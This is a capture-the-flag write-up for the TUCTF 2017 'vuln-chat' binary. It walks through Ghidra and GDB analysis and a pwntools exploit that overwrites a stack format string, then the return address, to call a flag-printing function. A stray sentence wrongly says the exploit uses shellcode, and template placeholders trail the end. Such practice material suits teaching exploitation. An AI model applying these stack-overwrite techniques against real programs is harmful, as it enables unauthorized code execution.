

---
search:
  exclude: true
---
# TUCTF 2017 VulnChat

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/3 ] [binexp/2/vulnchat]
    → wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat
    --2021-03-01 09:42:07--  https://github.com/guyinatuxedo/nightmare/raw/master/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat
    Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
    Resolving github.com (github.com)... 140.82.121.3
    Connecting to github.com (github.com)|140.82.121.3|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat [following]
    --2021-03-01 09:42:08--  https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 6092 (5.9K) [application/octet-stream]
    Saving to: ‘vuln-chat’
    
    vuln-chat                           100%[================================================================>]   5.95K  --.-KB/s    in 0s
    
    2021-03-01 09:42:08 (30.0 MB/s) - ‘vuln-chat’ saved [6092/6092]
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/3 ] [binexp/2/vulnchat]
    → file vuln-chat
    vuln-chat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a3caa1805eeeee1454ee76287be398b12b5fa2b7, not stripped
    
    [ 192.168.0.18/24 ] [ /dev/pts/3 ] [binexp/2/vulnchat]
    → chmod +x vuln-chat
    
    

` 

## Solution 

First step is to execute the binary to see what it does:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/3 ] [binexp/2/vulnchat]
    → ./vuln-chat
    ----------- Welcome to vuln-chat -------------
    Enter your username: nothing
    Welcome nothing!
    Connecting to 'djinn'
    --- 'djinn' has joined your chat ---
    djinn: I have the information. But how do I know I can trust you?
    nothing: you can't lol
    djinn: Sorry. That's not good enough
    
    

Let's inspect it in ghidra:

Which gives us the following code:
    
    
    undefined4 main(void)
    
    {
      undefined local_31 [20];
      undefined local_1d [20];
      undefined4 local_9;
      undefined local_5;
      
      setvbuf(stdout,(char *)0x0,2,0x14);
      puts("----------- Welcome to vuln-chat -------------");
      printf("Enter your username: ");
      local_9 = 0x73303325;
      local_5 = 0;
      __isoc99_scanf(&local;_9,local_1d);
      printf("Welcome %s!\n",local_1d);
      puts("Connecting to \'djinn\'");
      sleep(1);
      puts("--- \'djinn\' has joined your chat ---");
      puts("djinn: I have the information. But how do I know I can trust you?");
      printf("%s: ",local_1d);
      __isoc99_scanf(&local;_9,local_31);
      puts("djinn: Sorry. That\'s not good enough");
      fflush(stdout);
      return 0;
    }
    
    

Here we see that first we get asked for our username, and then our input text gets put into local_1d (20 bytes) and then there is another scanf which puts our input text into local_31 (20 bytes aswell). For both scanf there is another variable being used called '&local;_9' this is a format specifier whcich is stored on the stack: 

    
    
            080485be c7 45 fb        MOV        dword ptr [EBP + local_9],0x73303325
                     25 33 30 73
    
    

here we see that an address is being called '0x73303325', and to see what it is we can just click on it and wait for ghidra to show us what it is:

    
    
    s03%
    
    

since we are dealing with a 32bit LSB executable, this is written in little endian (reverse or least important byte first) we get the following:
    
    
    %30s
    

so now we know that both scanf functions take our input characters with '%30s' or '30 characters'. So let's take a look at the stack layout from ghidra: 
    
    
                                 **************************************************************
                                 *                          FUNCTION                          *
                                 **************************************************************
                                 undefined main()
                 undefined         AL:1           
                 undefined1        Stack[-0x5]:1  local_5                                 XREF[1]:     080485c5(W)  
                 undefined4        Stack[-0x9]:4  local_9                                 XREF[3]:     080485be(W), 
                                                                                                       080485cd(*), 
                                                                                                       08048630(*)  
                 undefined1        Stack[-0x1d]:1 local_1d                                XREF[3]:     080485c9(*), 
                                                                                                       080485d9(*), 
                                                                                                       0804861b(*)  
                 undefined1        Stack[-0x31]:1 local_31                                XREF[1]:     0804862c(*)  
                                 main                                            XREF[4]:     Entry Point(*), 
                                                                                              _start:08048487(*), 08048830, 
                                                                                              080488ac(*)  
            0804858a 55              PUSH       EBP
    
    

Now the second time we are prompted for text, the text gets stored into local_31 located at -0x31, the first time we get prompted for text, the text gets stored in local_1d at -0x1d. Therefore local_31 can hold 0x31 - 0x1d bytes:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [~]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(0x31 - 0x1d)
    '0x14'
    

now that we know that local_31 can hold 14 bytes, let's see how much the local_1d variable hold aswell: 0x1d - 0x9
    
    
    >>> hex(0x1d - 0x9)
    '0x14'
    

So both local_31 and local_1d can hold 14 bytes respectively. And since we can scan in 30 bytes of data, that gives us 16 bytes to overflow with (or 0x10 bytes)

The idea here is to first overflow with local_1d to overflow to the value of local_9 (where the %30s is written in little endian as we saw earlier). Then we will be able to specify how much data the second scanf call will scan. And with that we will be able to scan in more than enough data to overwrite the saved return address to get code execution when the ret instruction executes. Now let's check if there is a flag function in ghidra:

    
    
    void printFlag(void)
    
    {
      system("/bin/cat ./flag.txt");
      puts("Use it wisely");
      return;
    }
    

Now with all of that, let's look at how the memory is corrupted during the exploit. First we set a breakpoint right after the second scanf call at '0x08048639':
    
    
            08048634 e8 27 fe        CALL       __isoc99_scanf                                   undefined __isoc99_scanf()
                     ff ff
            08048639 83 c4 08        ADD        ESP,0x8
    
    
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/52 ] [binexp/2/vulnchat]
    → gdb ./vuln-chat
    GNU gdb (GDB) 10.1
    Copyright (C) 2020 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-pc-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    .
    Find the GDB manual and other documentation resources online at:
        .
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    GEF for linux ready, type `gef' to start, `gef config' to configure
    92 commands loaded for GDB 10.1 using Python engine 3.9
    Reading symbols from ./vuln-chat...
    (No debugging symbols found in ./vuln-chat)
    gef➤  b *0x8048639
    Breakpoint 1 at 0x8048639
    gef➤  r
    Starting program: /home/nothing/binexp/2/vulnchat/vuln-chat
    ----------- Welcome to vuln-chat -------------
    Enter your username: 321654987 
    Welcome 321654987!
    Connecting to 'djinn'
    --- 'djinn' has joined your chat ---
    djinn: I have the information. But how do I know I can trust you?
    321654987: 987654321
    
    Breakpoint 1, 0x08048639 in main ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $eax   : 0x1
    $ebx   : 0x0
    $ecx   : 0xffffd090  →  0xf7f90540  →  0xfbad2288
    $edx   : 0xf7f8fe1c  →  0x001eed2c
    $esp   : 0xffffd0b0  →  0xffffd0e3  →  "%30s"
    $ebp   : 0xffffd0e8  →  0x00000000
    $esi   : 0x1
    $edi   : 0x08048470  →  <_start+0> xor ebp, ebp
    $eip   : 0x08048639  →   add esp, 0x8
    $eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0xffffd0b0│+0x0000: 0xffffd0e3  →  "%30s"        ← $esp
    0xffffd0b4│+0x0004: 0xffffd0bb  →  "987654321"
    0xffffd0b8│+0x0008: 0x39049a10
    0xffffd0bc│+0x000c: "87654321"
    0xffffd0c0│+0x0010: "4321"
    0xffffd0c4│+0x0014: 0xffffd100  →  0xffffd134  →  0x67db6985
    0xffffd0c8│+0x0018: 0xffffd19c  →  0xffffd371  →  "ALACRITTY_LOG=/tmp/Alacritty-3896966.log"
    0xffffd0cc│+0x001c: 0x31dd8c99
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
        0x8048630        lea    eax, [ebp-0x5]
        0x8048633        push   eax
        0x8048634        call   0x8048460 <__isoc99_scanf@plt>
    ●→  0x8048639        add    esp, 0x8
        0x804863c        push   0x80487ec
        0x8048641        call   0x8048410 
        0x8048646        add    esp, 0x4
        0x8048649        mov    eax, ds:0x8049a60
        0x804864e        push   eax
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "vuln-chat", stopped 0x8048639 in main (), reason: BREAKPOINT
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x8048639 → main()
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

now from here we first set the breakpoint, then ran the binary, then entered the first scanf where we put the '321654987' pattern, and then entered the second scanf where we put the '987654321' pattern, and then we hit the breakpoint we set. Now we want to inspect what happened to our second text input, the pattern '987654321' so we search the pattern in the memory:
    
    
    gef➤  search-pattern 987654321
    [+] Searching '987654321' in memory
    [+] In '[heap]'(0x804a000-0x806c000), permission=rw-
      0x804a1a0 - 0x804a1ab  →   "987654321\n"
    [+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
      0xffffd0bb - 0xffffd0c4  →   "987654321"
    
    

Now we know that our second text input pattern is at **0xffffd0bb** let's search for the pattern '%30s': 
    
    
    gef➤  search-pattern %30s
    [+] Searching '%30s' in memory
    [+] In '/home/nothing/binexp/2/vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
      0x80485c1 - 0x80485c5  →   "%30s[...]"
    [+] In '/home/nothing/binexp/2/vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
      0x80495c1 - 0x80495c5  →   "%30s[...]"
    [+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
      0xffffd0e3 - 0xffffd0e7  →   "%30s"
    
    

Now we know that the format string is stored at**0xffffd0e3** so let's see where our first input text is with the pattern 321654987:
    
    
    gef➤  search-pattern 321654987
    [+] Searching '321654987' in memory
    [+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
      0xffffb06c - 0xffffb086  →   "321654987: 654987!\nname: "
      0xffffd0cf - 0xffffd0d8  →   "321654987"
    
    

so now we know that our first text pattern (321654987) is located at **0xffffd0cf** so let's calculate the offset:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/54 ] [binexp/2/vulnchat]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(0xffffd0e3 - 0xffffd0cf )
    '0x14'
    
    

so now we know that our first input text (321654987) is 0x14 bytes (or 20 bytes) away from the format string variable value '%30s', our second input begins at **0xffffd0bb** , but we need to know where the return address is and what the offset between our second input and the return address is: 
    
    
    gef➤  x/14x 0xffffd0bb
    0xffffd0bb:     0x36373839      0x32333435      0xffd10031      0xffd19cff
    0xffffd0cb:     0xdd8c99ff      0x34333231      0x38373635      0x04860039
    0xffffd0db:     0x00000008      0x00000100      0x73303325      0x00000000
    0xffffd0eb:     0xdbfa0d00      0x000001f7
    
    gef➤  i f
    Stack level 0, frame at 0xffffd0f0:
     eip = 0x8048639 in main; saved eip = 0xf7dbfa0d
     Arglist at 0xffffd0e8, args:
     Locals at 0xffffd0e8, Previous frame's sp is 0xffffd0f0
     Saved registers:
      ebp at 0xffffd0e8, eip at 0xffffd0ec
    
    
    

Here we see that the return address is at **0xffffd0ec** so we calculate the offset between our second input **0xffffd0bb** and the return address:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/54 ] [binexp/2/vulnchat]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(0xffffd0ec - 0xffffd0bb)
    '0x31'
    
    

So there is exactly 31 bytes between the second input and the return address, so this is a hint that the default 30 bytes of second input will not be able to reach it, that's why the first input is there to reach the %30s value beforehand to change it. From here we can make the following exploit:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/54 ] [binexp/2/vulnchat]
    → vim exploit.py
    
    
    
    
    from pwn import *
    
    target = process ('./vuln-chat')
    
    #print the initial text
    print(target.recvuntil("username: "))
    
    
    #form the first payload to overwrite the %30s value
    payload0  = b""
    payload0 += b"\x00" * 0x14      #fill up the space with 0x14 nullbytes until the %30s format string value
    payload0 += b"%99s"             #overwrite %30s with %99s
    
    #send the first payload through the first scanf
    #print(payload0)
    target.sendline(payload0)
    
    # Print the text up to the second scanf call
    print(target.recvuntil("I know I can trust you?"))
    
    
    #write the second payload to overwrite the return address with the print_flag function address
    payload1  = b""
    payload1 += b"\x00" *  0x31     #fill up the space until the return address with (0x31 nullbytes)
    payload1 += p32(0x804856b)      #write the address of print_flag in little endian 32 bits
    
    #send the second payload through the second scanf
    #print(payload1)
    target.sendline(payload1)
    
    #drop into an interactive shell to view the rest of the output
    target.interactive()
    
    

The plan here is to first push shellcode onto the stack, and we know where it is thanks to the memory address that's given to us, then we fill the gap with nullbytes, and then overwrite the return address to point to the start of our shellcode
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/55 ] [binexp/2/vulnchat]
    → python3 exploit.py
    [+] Starting local process './vuln-chat': pid 2786552
    b'----------- Welcome to vuln-chat -------------\nEnter your username: '
    b"Welcome !\nConnecting to 'djinn'\n--- 'djinn' has joined your chat ---\ndjinn: I have the information. But how do I know I can trust you?"
    [*] Switching to interactive mode
    
    : djinn: Sorry. That's not good enough
    flag{g0ttem_b0yz}
    Use it wisely
    [*] Got EOF while reading in interactive
    $ 
    

And our exploit worked! We have been able to print the flag.

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

